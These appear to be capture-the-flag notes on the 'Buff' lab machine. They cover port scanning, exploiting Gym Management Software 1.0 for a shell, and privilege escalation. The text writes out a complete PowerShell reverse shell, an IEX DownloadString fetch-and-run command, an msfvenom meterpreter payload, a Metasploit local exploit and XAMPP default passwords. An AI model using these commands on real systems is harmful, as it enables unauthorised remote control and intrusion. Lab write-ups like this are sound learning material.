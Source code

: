 Buff --- 20 points --- 10.10.10.198
===

`sudo nmap -p- --min-rate=1000 -T4 -oN nmap_fast --stats-every 15s 10.10.10.198`    
PORT     STATE SERVICE    
7680/tcp open  pando-pub    
8080/tcp open  http-proxy    


`sudo nmap -A -oN nmap_details --stats-every 15s --script=/home/stddel/git/vulscan/vulscan.nse -p(cat nmap_results | grep '^.[0-9]' | cut -d '/' -f 1 |  tr '\n' ',' | sed 's/,$//g') 10.10.10.198`    

8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)   
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6    

PHP info site with email/password login option   

`python ~/git/dirsearch/dirsearch.py -u 10.10.10.198:8080 -E | tee buff_dirsearch.log`   
Totally custom site with plain js that may be read.    
Cannot login, register or upload anythin without creds, but there pages for this    

Nothing interesting with searches.    
Check on the contact page made with "Gym Management Software 1.0". Is it even a real thing?    
Apparently, yes. It even has its own page on exploit-db    
https://www.exploit-db.com/exploits/48506    
All the writeup is there    

```
python buff_shell_run.py http://10.10.10.198:8080/    
C:\xampp\htdocs\gym\upload> whoami
PNG
▒
buff\shaun
```

Telepathy is horrible. Lets upgrade to powershell.    
```
>> echo '$client = New-Object System.Net.Sockets.TCPClient("10.10.14.18",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' > rs.ps1

>> sudo python3 -m http.server 80
>> powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.18/rs.ps1\");

## cat user.txt
4c1836f235e38616c766f2f873b30e2c

## systeminfo
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.17134 N/A Build 17134

```

There is an exploit for this version, letus try to make it happen    

msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.18 lport=8080 -f exe > buff.exe

(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.18/buff.exe","buff.exe")

use windows/local/appxsvc_hard_link_privesc

```
1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).  
```
